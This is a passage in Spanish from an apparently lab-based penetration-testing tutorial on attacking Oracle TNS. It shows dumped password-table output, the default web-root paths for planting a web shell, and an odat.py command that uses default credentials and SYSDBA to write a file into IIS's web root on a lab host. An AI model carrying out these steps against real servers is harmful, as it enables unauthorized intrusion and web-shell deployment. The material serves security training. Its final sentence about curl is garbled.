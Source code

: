```shell-session

NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
```

Otra opción es cargar un shell web en el destino. Sin embargo, esto requiere que el servidor ejecute un servidor web, y necesitamos saber la ubicación exacta del directorio raíz del servidor web. Sin embargo, si sabemos con qué tipo de sistema estamos tratando, podemos probar las rutas predeterminadas, que son:

| **Sistema operativo** | **Camino**           |
| --------------------- | -------------------- |
| Linux                 | `/var/www/html`      |
| Windows               | `C:\inetpub\wwwroot` |

En primer lugar, siempre es importante probar nuestro enfoque de explotación con archivos que no parezcan peligrosos para los sistemas antivirus o de detección/prevención de intrusiones. Por lo tanto, creamos un archivo de texto con una cadena y lo usamos para cargarlo en el sistema de destino.

#### Oracle RDBMS - Carga de archivos

  Oráculo TNS

```shell-session
zunderrubb@htb[/htb]$ echo "Oracle File Upload Test" > testing.txt
zunderrubb@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
```

Finalmente, podemos probar si el enfoque de carga de archivos funcionó con . Por lo tanto, utilizaremos una solicitud, o podemos visitar a través del navegador.`curl``GET http://<IP>`


**[[SQL]]**